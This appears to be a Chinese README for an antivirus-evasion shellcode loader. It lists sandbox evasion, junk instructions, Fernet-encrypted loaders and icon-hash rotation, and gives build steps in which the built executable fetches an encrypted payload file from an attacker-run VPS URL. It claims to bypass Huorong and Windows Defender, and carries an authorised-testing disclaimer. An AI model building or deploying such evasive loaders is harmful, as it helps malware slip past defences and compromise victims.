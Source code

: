 ## 工具浅析

- 远控条件触发防沙箱
- 花指令干扰
- loader和shellcode进行fernet加密
- 触发器混淆干扰特征码
- 自动刷新ico图片的md5，防止图标特征码被查杀



## 用法

- 安装依赖

```
pip install -r requirements.txt
```

- 执行main.py

```
将shellcode填入main.py
python main.py #会生成a.txt和b.py
```

- 将a.txt放入vps，并将a.txt的url填入b.py中，再执行create.py

```
例如：url='http://192.168.52.129/a.txt'
python create.py
dist目录下生成HipsMain.exe
```

**仅支持windows系统编译!**



## 免杀测试

**过火绒**

![image-20231019203001783](C:/Users/admin/AppData/Roaming/Typora/typora-user-images/image-20231019203001783.png)

**过defender**

![image-20231019204156899](C:/Users/admin/AppData/Roaming/Typora/typora-user-images/image-20231019204156899.png)

**动态执行**

![image-20231020182032610](C:/Users/admin/AppData/Roaming/Typora/typora-user-images/image-20231020182032610.png)



## 声明

- 仅限用于技术研究和获得正式授权的测试活动。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。
- 工具并没有多少技术含量，站在前辈肩膀上造轮子而已
- 不能免杀可以提Issues，stars是持续更新的动力，嘻嘻嘻。